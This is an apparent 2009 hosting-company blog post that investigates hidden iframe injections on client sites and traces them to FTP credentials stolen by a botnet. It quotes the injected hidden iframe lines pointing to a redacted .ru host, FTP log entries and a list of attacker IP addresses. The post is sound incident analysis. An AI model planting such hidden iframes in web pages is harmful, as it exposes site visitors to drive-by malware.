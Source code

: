 ```yaml
---
date: '2009-09-21 15:17:56'
layout: post
slug: iframe-injection-attack-investigation
status: publish
title: Iframe injection attack investigation
wordpress_id: '874'
categories:
- hosting
- Security
---
```


The whole hidden IFRAME vulnerability has been going on for some time, only a few of our client have been effected by this. The net is still buzzing with this issue and while some are saying that the injection are results of php insecurities, mysql injection or cross site scripting, while others point to key loggers and hijacked ftp credentials. In our case the exploit was not due to an application vulnerability but rather to hijacked ftp login information. Brute force password guessing attacks were not performed on this account nor any other accounts on the same server. In this particular type of attack, at the very end of index.php/index.html an IFRAME statement was appended overwriting page closing tags.

`iframe src="http://***.ru:8080/index.php" width=111 height=162 style="visibi
iframe src="http://***.ru:8080/index.php" width=136 height=162 style="visibility: hidden" /iframe
iframe src="http://***.ru:8080/index.php" width=141 height=156 style="visibility: hidden" /iframe`

Some of the index.php files had multiple IFRAME statements appended to the end. Knowing the username of affected account and affected filename I searched in /var/log/messages for any related entries and hit jackpot:

`Aug 27 01:27:59 web152 pure-ftpd: (?@94.218.69.243) [INFO] user is now logged in
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [NOTICE] /home/user//public_html/index.php downloaded  (2311 bytes, 1001.70KB/sec)
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [INFO] Logout.
Aug 27 01:28:04 web152 pure-ftpd: (?@78.92.144.185) [INFO] user is now logged in
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [NOTICE] /home/user//public_html/index.php uploaded  (2353 bytes, 10.42KB/sec)
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [INFO] Logout.`

What's interesting to note here is that even though downloading/uploading of index.php happens within a 6 second window, the source ip address for download and upload are not the same. During the next few days the same file is downloaded and uploaded but never from the same set of ip addresses. During the few days that I was allowing this to happen as I was monitoring said activity and collecting the IP addresses to see if a pattern emerges:

`83.82.57.39 GeoIP Country Edition: NL, Netherlands
95.52.163.74 GeoIP Country Edition: RU, Russian Federation
189.122.164.40 GeoIP Country Edition: BR, Brazil
69.159.47.21 GeoIP Country Edition: CA, Canada
85.221.184.164 GeoIP Country Edition: PL, Poland
98.243.198.220 GeoIP Country Edition: US, United States
78.30.154.22 GeoIP Country Edition: RS, Serbia
77.81.33.229 GeoIP Country Edition: RO, Romania
83.6.73.91 GeoIP Country Edition: PL, Poland
190.198.3.27 GeoIP Country Edition: VE, Venezuela
75.208.130.92 GeoIP Country Edition: US, United States
68.84.202.157 GeoIP Country Edition: US, United States
75.80.81.104 GeoIP Country Edition: US, United States`

Seeing that no clear pattern is evident here and considering that the IP address was different for each connection it is my rationale that the computer's at these IP addresses were a part of a botnet. My assumption is that a developer had saved the account password and was infected by malicious software which was able to gather the ftp credentials.

Cleanup included restoring files and changing all account/ftp/email and database passwords.
